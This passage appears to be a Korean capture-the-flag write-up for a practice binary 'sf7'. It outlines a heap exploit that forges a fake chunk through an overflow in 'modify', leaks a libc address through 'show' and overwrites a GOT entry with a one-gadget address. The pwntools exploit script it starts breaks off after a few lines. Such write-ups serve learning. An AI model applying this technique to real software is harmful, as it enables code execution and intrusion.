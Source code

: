 ![Untitled](SF7_asset/Untitled_13.png)

## Exploit

위에서 말했듯 double free bug를 이용을 할 수는 없을 것 같고 다른 방법을 사용해야 할 것 같다는 느낌이 크게 느껴졌다.

그래서 어떻게 exploit을 할까 생각을 해보니

1. modify에서 해당 청크를 넘어서 쓸 수 있다.
2. show는 어떤 주소의 값이든 보여준다.

이 두 취약점을 이용하면 될 것 같다.

그래서 modify로 fake chunk를 만들어서 저자 정보와 내용 주소를 got값으로 한 다음? 

show를 하면 libc주소가 leak이 될 것이고 one gadget 주소를 구한 다음 modify를 통해 got를 one gadget 주소로 덮으면 되지 않을 까라 생각을 했다.

```python
from pwn import *

p = process('./sf7')
e = ELF('./sf7')

#log
context.log_level = 'debug'

def create(size, content):
    p.recvuntil("> ")
    p.sendline("1")
    
    p.recvuntil('size : ')
```